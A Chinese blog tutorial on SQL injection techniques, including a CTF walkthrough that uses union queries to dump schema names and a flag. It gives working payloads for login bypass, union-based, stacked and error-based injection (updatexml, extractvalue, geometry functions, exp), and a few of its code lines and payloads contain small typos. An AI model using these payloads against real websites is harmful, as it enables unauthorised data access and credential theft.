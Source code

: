 sql注入是个很复杂的东西，这里分多篇来总结一些常见的注入姿势。
## 0x00 注入原理
sql注入，即通过在sql查询的过程中通过构造特殊输入，改变原有sql语句的结构，从而实现执行攻击者想要执行的sql语句。    
例如，我们有如下代码：   
```
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id=" . $id;
```
如果我们构造```/?id=1%20or%201=1```那么此时query将会变成```"SELECT * FROM users WHERE id=1 or 1=1"```,此时where后面的语句永远为真，故sql语句成功执行，造成sql注入。 
## 0x01 注入类型
### 按变量类型分类
- 数字型
- 字符型
### 按提交方式分类
- GET型
- POST型
- COOKIE型
### 按注入方式分类
- union联合查询注入
- 报错注入
+ 盲注
    + 基于时间的盲注
    + 基于布尔的盲注
### 编码
- 宽字节注入
## 0x02 万能密码
万能密码是指，在一个登录接口中如果存在sql注入，可以通过构造where子句永远为真从而实现登录。例如：   
```
$username = $_GET['username'];
$password = $_GET['password'];
$query = "SELECT * FROM users WHERE username='" . $id . "'and password='" . $password . "'";
```
首先我们知道```#```和```--```是sql语句中的注释，其中```--```后面需要加一个空格。这里我们巧妙构造输入```/?username=admin%27%20or%201=1%20%23```，这时sql语句变为```"SELECT * FROM users WHERE username='admin' or 1=1 #and password=''"```从而```and password=''```这部分内容被注释掉了，sql语句永远为真，造成sql注入。   
## 0x03 联合查询注入
联合查询注入是一种常用的注入方式，它借助的是大于等于5.0版本的MySQL中的```information_schema```数据库，```information_schema```数据库中存储了MySQL服务器所维护的其他所有数据库的信息。例如数据库名，数据表名，列名，列的数据类型等。这时通过```union```关键字进行联合查询即可查询到大量信息。   

举个简单的题目的例子，2019极客大挑战的一道sql注入题。(复现环境https://buuoj.cn/challenges)   
拿到题目，使用```1'```登录，发现sql报错，故存在注入点。   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）1.jpg">   
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）2.jpg">   
这里首先尝试万能密码登录，```/check.php?username=admin%27%20%23&password=123```，发现成功登录，显示了登录用户名和一串密码。  
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）3.jpg">   
将第一个查询字段的```admin```置为一个不存在的值[不这么做的话会无法显示union select查询出的值]，然后判断列数，发现共计3列，尝试第四列则报错。  
```
/check.php?username=admn%27%20order%20by%1,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）4.jpg">   

```
/check.php?username=admn%27%20order%20by1,2,3,4%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）5.jpg">   

判断一下列名对应的内容：  
```
/check.php?username=admn%27%20union%20select%201,2,3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）6.jpg">   

发现第二列对应username，第三列对应password。   
下面开始union select注入。首先查数据库名。数据库名对应的是```information_schema.schemata```数据表，这里面存储的是所有数据库的信息。    

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(schema_name)%20from%20information_schema.schemata),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）7.jpg">    

下一步查询数据表，所有数据表名信息存储在```information_schema.tables```数据表中。例如查询geek数据库的数据表名：   
```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema="geek"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）8.jpg">   

下一步查询列名，所有列名信息存储在```information_schema.columns```数据表中。例如查询l0ve1ysq1表中的所有列名：  

```
/check.php?username=admn%27%20union%20select%201,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema="geek"%20and%20table_name="l0ve1ysq1"),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）9.jpg">   
最后通过limit限制行数一行一行查询表中的内容，最终得到flag。  

```
/check.php?username=admn%27%20union%20select%201,(select%20password%20from%20geek.l0ve1ysq1%20limit%2015,1),3%23&password=123
```
<img src="/assets/img/sql注入总结（一）/sql注入总结（一）10.jpg">   

## 0x04 堆叠注入
堆叠注入指的是在某些情况下，后端的sql语句执行函数可以执行多条命令(例如mysqli_multi_query())，这个时候我们可以通过```;```来结束前一条sql语句，随后再在分号后面写入sql，从而实现“堆一堆”sql语句进行注入。而```;```后的语句理论上没有过滤的话则可以为所欲为。    
不过堆叠注入利用的条件有限，因为一般情况下后台的sql执行函数为安全起见只允许执行单一sql，分号后的语句将会被忽略。  
## 0x05 报错注入
报错注入一般应用在正确执行无回显，而若发生错误会显示错误的情况下。这时可以使用报错注入的方式获得数据库信息。   
报错注入常用函数：   
#### updatexml()
函数原型：```UPDATEXML(XML_document, XPath_string, new_value);```
第一个参数：```XML_document```，是String格式，是XML文档对象的名称   
第二个参数：```XPath_string```，XPath格式的字符串   
第三个参数：```new_value```，String格式，替换查找到符合条件的数据   
函数作用：改变文档中符合条件的节点的值。   
注：updatexml最多只能显示32位，需要配合substr等字符串处理函数使用。   
例如：
```
http://example.com/index.php?id=1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)
```
#### extractvalue()
函数原型：```EXTRACTVALUE(XML_document, XPath_string)```   
参数含义同上。   
举例:   
```
http://example.com/index.php?id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
```
#### 几何对象
MySQL中支持的几何数据类型包括Geometry,Point,LineString,Polygon以及集合类型的MultiPoint,MultiLineString,MultiPolygon,GeometryCollection.其中Geometry可以表示任意一种几何类型，即在MySQL中，如果一个字段类型是Geometry，则可以存储Point、LineString等其它几何类型的值。其他的几种则需要固定有效的表示格式。   
我们可以借助几何对象的相关函数进行报错注入。   
geometrycollection():```id=1 and geometrycollection((select * from(select * from(select user())a)b))```   
multipoint():```id=1 and multipoint((select * from(select * from(select user())a)b))```   
polygon():```id=1 and polygon((select * from(select * from(select user())a)b))```   
multipolygon():```id=1 and multipolygon((select * from(select * from(select user())a)b))```   
linestring():```id=1 and linestring((select * from(select * from(select user())a)b))```   
multilinestring():```id=1 and multilinestring((select * from(select * from(select user())a)b))```   
#### exp()
例子：
```id=1 and exp(~(select * from(select user())a))```   

OK,先总结这么多，剩下的内容下次再总结。




